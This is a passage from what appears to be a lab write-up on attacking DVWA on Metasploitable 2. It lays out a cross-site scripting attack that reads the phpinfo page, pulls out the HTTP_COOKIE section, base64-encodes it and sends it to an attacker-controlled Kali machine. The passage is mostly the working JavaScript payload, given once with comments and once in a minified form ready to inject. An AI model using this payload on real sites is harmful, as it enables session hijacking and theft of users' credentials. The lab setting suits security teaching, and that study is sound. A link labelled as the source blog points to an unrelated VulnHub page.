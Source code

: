1. Make a request to the URL 

   <div class="code-header">
      <button class="copy-code-button">
        Copy
      </button>
    </div>
   ```html
   http://192.168.240.128/dvwa/phpinfo
   ```

2. Take the portion of the PHP info page that contains the user cookies.

3. Encode this portion in *base64*.

4. Send this encoded string to the malicious server, that is, our Kali.

That is what the following code does

{% include codeHeader.html %}
```html
<script>
   var req = new XMLHttpRequest(); // Initializes the request object
   req.onload=reqListener; // Set the listener reqListener that is triggered when the response is ready
   var url="http://192.168.240.128/dvwa/phpinfo"; // Initializes the URL of the PHP info page
   req.withCredentials=true; // Send the cookie header
   req.open("GET",url,false); // The request will be sent to the PHP info page of Metasploitable 2 (192.168.240.128) through the GET method synchronously
   req.send(); // Send the request
   function reqListener() {
      var req2=new XMLHttpRequest(); // Initializes the request object
      const sess=this.responseText.substring(this.responseText.indexOf("HTTP_COOKIE")); // Store in the variable sess the result of encoding in base64 the portion of the PHP info page between the first appearance of the word HTTP_COOKIE and the final of the page
      req2.open("GET","http://192.168.240.129/?data="+btoa(sess),false); // The request will be sent to the Kali (192.168.240.129) through the GET method synchronously
      req2.send() // Send the request
   };
</script>
```

that I have taken from the blog of Aleksi Kistauri

[Link to Aleksi Kistauri's blog post](https://www.vulnhub.com/entry/metasploitable-2,29/)

making some minor modifications. This code could probably be optimized to be more precise in taking the exact part of the PHP info page that contains the cookies but it would also be longer.

So if we set up a web server in our Kali through the above command, we write the payload

{% include codeHeader.html %}
```html
<script>var req = new XMLHttpRequest();req.onload=reqListener;var url="http://192.168.240.128/dvwa/phpinfo";req.withCredentials=true;req.open("GET",url,false);req.send();function reqListener() {var req2=new XMLHttpRequest();const sess=this.responseText.substring(this.responseText.indexOf("HTTP_COOKIE"));req2.open("GET","http://192.168.240.129/?data="+btoa(sess),false);req2.send()};</script>
```
